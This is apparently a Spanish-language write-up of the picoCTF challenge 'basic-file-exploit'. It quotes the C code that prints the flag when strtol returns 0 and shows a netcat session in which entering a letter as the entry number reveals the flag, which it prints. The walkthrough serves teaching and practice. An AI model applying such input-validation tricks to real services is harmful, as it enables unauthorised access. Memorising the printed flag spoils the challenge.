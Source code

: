 # USERNAME -> amcdanymx

#### Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 55825`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/542/program-redacted.c).
 

#### PISTAS

- Try passing in things the program doesn't expect. Like a string instead of a number.

#### SOLUCIÓN


#### Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 55825`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/542/program-redacted.c).

#### Pistas
- Try passing in things the program doesn't expect. Like a string instead of a number.


#### Solución 

En el código en c hay una parte de código donde se explica el funcionamiento del programa, depende de las opciones nos va dando el resultado, en este caso si se escribe bien y se guarfdaa y después pones un valor de caracter sale la bandera

- Código en c donde se pone la bandera en una sentencia if
```
-     if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    
-       puts(flag);
    
-       fseek(stdin, 0, SEEK_END);
    
-       exit(0);
    
-     }
    
```

```

amcdanymx:basi-file-exploit/ $ nc  saturn.picoctf.net 55825             

Hi, welcome to my echo chamber!

Type '1' to enter a phrase into our database

Type '2' to echo a phrase in our database

Type '3' to exit the program

1

1

Please enter your data:

prueba

prueba

Please enter the length of your data:

4

4

Your entry number is: 1

Write successful, would you like to do anything else?

2

2

Please enter the entry number of your data:

1

1

prue

Read successful, would you like to do anything else?

2

2

Please enter the entry number of your data:

a

a

picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}


```

